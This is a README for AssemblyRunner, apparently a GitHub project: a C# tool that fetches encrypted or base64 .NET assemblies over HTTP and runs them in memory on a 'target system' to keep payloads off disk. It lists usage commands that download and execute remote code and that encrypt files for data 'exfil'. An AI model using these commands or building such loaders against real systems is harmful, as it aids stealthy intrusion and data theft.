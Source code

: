 # AssemblyRunner

C# Binary that is designed to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

If performed correctly, actual executed payload is never on-disk. 

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)

AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run

AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run

AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)

AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run

AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run

AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt

AssemblyRunner.exe -enc PASSWORD http://IP/File


--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt

AssemblyRunner.exe -file PASSWORD FILE/TO/ENC


--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt

AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt

